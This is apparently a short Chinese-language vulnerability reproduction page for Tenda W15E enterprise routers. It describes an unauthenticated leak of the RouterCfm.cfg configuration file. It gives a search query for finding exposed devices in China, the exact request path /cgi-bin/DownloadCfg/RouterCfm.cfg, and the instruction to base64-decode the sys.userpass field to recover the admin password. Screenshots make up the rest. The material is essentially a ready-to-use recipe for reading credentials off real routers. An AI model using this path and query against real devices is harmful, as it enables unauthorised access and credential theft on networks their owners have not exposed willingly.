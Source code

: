 # Tenda W15E企业级路由器 RouterCfm.cfg 配置文件泄漏漏洞

## 漏洞描述

Tenda 企业级路由器 RouterCfm.cfg 配置文件可在未授权的情况下被读取，导致账号密码等敏感信息泄漏

## 漏洞影响

<a-checkbox checked>Tenda 企业级路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Tenda | Login" && country="CN"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1642645426007-dae7304a-c0b0-4e24-b622-c4c4cae93f13.png)

访问路径

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1642645500607-fbcda323-b8f8-406d-a77a-2cea223b9f77.png)

后台账号密码位于参数 `sys.userpass` base64解密后的字符

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1642645610038-094fc290-4ccc-4579-8eef-cf7bee34344e.png)



